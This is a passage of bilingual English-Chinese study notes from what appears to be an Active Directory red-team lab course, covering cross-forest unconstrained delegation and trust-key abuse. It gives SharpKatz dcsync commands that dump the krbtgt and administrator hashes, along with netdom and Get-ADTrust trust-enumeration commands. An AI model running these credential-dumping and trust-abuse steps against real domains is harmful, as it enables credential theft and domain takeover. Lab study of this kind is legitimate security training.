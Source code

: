 或者
```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local


C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```


# Cross Forest Attacks - Unconstrained Delegation（跨林信任攻击，无约束委派）


• Recall the Printer bug and its abuse from a machine with Unconstrained Delegation.（回顾一下Printer bug，以及它在一台具有无约束授权的机器上的滥用。）、

• We have used it to escalate privileges to Domain Admin and Enterprise Admin.（我们已经用它将权限升级到DA和EA）

• It also works across a Two-way forest trust with TGT Delegation enabled!(在启用TGT授权的情况下，它也适用于在双向森林信任中)

• TGT Delegation is disabled by default and must be explicitly enabled across a trust for the trusted (target) forest.（TGT 委派在默认情况下处于禁用状态，并且必须跨信任（目标）林的信任显式启用。）

• In the lab, TGTDelegation is set from usvendor.local to techcorp.local (but not set for the other direction).（在实验室中，将 TGTDelegation 从 usvendor.local 设置为 techcorp.local（但未设置为其他方向）。）


要枚举是否跨林信任启用了 TGTDelegation，请从 DC 运行以下命令
```
netdom trust trustingforest /domain:trustedforest /EnableTgtDelegation
```

在lab里，下面命令在usvendor-dc中运行
```
netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation
```

在lab里使用下面powerview命令会报错，但理论上应该是可以执行的
```
Get-ADTrust -server usvendor.local -Filter *
```

# Trust Key

• By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.（ 通过在双向信任中滥用森林之间的信任流，就有可能跨越森林边界访问资源。）

• We can use the Trust Key, the same way as in Domain trusts but we can access only those resources which are explicitly shared with our current forest.（我们可以使用信任密钥，与域信任中的方式相同，但我们只能访问那些与我们当前森林明确共享的资源。）

• Let's try to access a file share 'eushare' on euvendor-dc of euvendor.local forest from eu.local which is explicitly shared with Domain Admins of eu.local.（让我们尝试从eu.local访问euvendor.local森林的euvendor-dc上的一个文件共享 "eushare"，这个文件共享是明确地与eu.local的域管理员共享）
